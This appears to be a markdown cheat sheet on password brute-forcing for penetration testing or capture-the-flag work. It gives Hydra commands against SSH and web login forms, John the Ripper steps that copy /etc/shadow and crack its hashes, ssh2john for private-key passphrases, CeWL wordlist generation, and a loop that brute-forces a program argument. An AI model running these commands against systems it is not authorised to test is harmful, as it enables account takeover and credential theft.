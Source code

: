 # Bruteforce

Brute-force attacks work by calculating every possible combination that could make up a password and testing it to see if it is the correct password. Be aware that, as the password's length increases, the amount of time, on average, to find the correct password increases exponentially.

## Hydra

Hydra: tool developed by THC (The Hacker's Choice), uses bruteforce attacks on different protocols


```sh
hydra -l root -x 1:9:aA1 [@IP] ssh
```

* l : user to test for
* x: the tested password will have between 1 and 9 characters with min and shift and numbers
* V : verbose

```sh
hydra -V -L usernames.txt -P pass.txt [@IP] [protocol] # performs the combinations between each word in the text files.
```


```sh
hydra [@Host] -V -L usernames.txt -P pass.txt http-get-form "path/to/the/form/:username=^USER^&password=^PASS^&Login:F-incorrect:H=cookie:PHPSESSID=[cookie];security=high"
```

Login = name of the button and repeat as long as it is incorrect

___
## John The Ripper (JTR)

### Default use

```sh
john --wordlist=[fichierWordList] [fichierACraquer] # To make a crack based on a wordList
```

```sh
john --list=formats # all hash types that can be cracked by JTR
```
### Crack /etc/shadow

```sh
cp /etc/passwd ./
cp /etc/shadow ./
unshadow passwd shadow > passwords
john passwords # automatic detection of the hash and starts cracking (press a key to know the evolution (except 'q' because it quits)
john -show passwords # in the folder where the crack is made => to check what has been found
```


### Recovering the passphrase of a private key

```sh
ssh2john id_rsa > hash.txt
```

___
## CeWL (Custom Wordlist Generator)

https://github.com/digininja/CeWL

Tools to create a list of words based on a URL.

```sh
cewl --depth 2 --min_word_length 5 --write docswords.txt https://example.com
```

___
## Bruteforce an argument of a program

If you need to bruteforce an argument of a program.
```sh
strings random.dic > list.txt
while read LINE; do ./program "$LINE"; done < list.txt
```
